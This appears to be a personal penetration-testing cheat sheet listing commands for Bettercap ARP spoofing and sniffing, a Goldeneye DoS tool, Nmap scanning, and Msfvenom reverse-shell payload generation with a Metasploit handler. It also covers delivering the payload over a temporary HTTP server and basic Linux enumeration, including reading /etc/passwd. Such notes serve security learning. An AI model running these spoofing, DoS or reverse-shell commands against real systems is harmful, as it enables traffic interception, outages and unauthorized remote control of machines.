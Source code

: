 # Cheat Sheet

## Bettercap

Spoofing, sniffing...

```bash

net.probe on
Net.recon on


echo 1 > /proc/sys/net/ipv4/ip_forward
echo 0 > /proc/sys/net/ipv4/conf/all/send_redirection

bettercap -eval "set arp.spoof.targets 192.168.0.108 192.168.0.1; set arp.spoof.fullduplex true; set arp.spoof.interval 10; arp.spoof on; net.sniff on"

```

Only works for http, not https.

--- 

## Goldeneye

DoS attacks.

```bash
goldeneye <target> # tagrgets web servers like http://127.0.0.1:8080
```

---

## Nmap

```bash
nmap -T 5 <ip_addr> -p 80
```

**-T**: scanning speed. 0 very slow, 5 very fast...
**-p**: specific port only, separate with ","
**-v**: verbose
**-d**: raise debug level
**-iL**: supply text file with ip addresses
**-oN**: add to output file
**-sP**: check if alive
**-F**: top 100 ports
**--top-ports**: top n ports
**--script vuln***: scans for all vulns with scripts

```bash
nmap -sV -p- 10.10.10.10
```

`-p-` scans all ports
`-sV` attempts to detect service version

```bash
nmap -A -p- 10.10.10.10
```

`-A` aggressive scan that includes os detection, version detection, script scanning, and traceroute on all ports.

---
## Metasploit

```bash
msfconsole
```

```bash
msfvenom -p <payload> LHOST=<your_ip> LPORT=<your_port> -f <format> -o <filename>
```

`msfvenom` tool used to generate payloads.

-p used to specify type of payload. (ie reverse shell)
-f format of the file (exe, elf, raw)


```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<myip> LPORT=4444 -f exe -o payload.exe
```

generates the payload.

```bash
use multi/handler # inside metasploit console
set payload windows/meterpreter/reverse_tcp
show options

```

with no antivirus for windows.

create tmp website
```
python -m http.server 8080
```

You have to get the payload and run it on windows. Now you have complete access to the windows machine.

---
## Enumreation

```bash
hostname
uname -a
ps aux
sudo -l
cat /etc/passwd | cut -d ":" -f 1
```

---
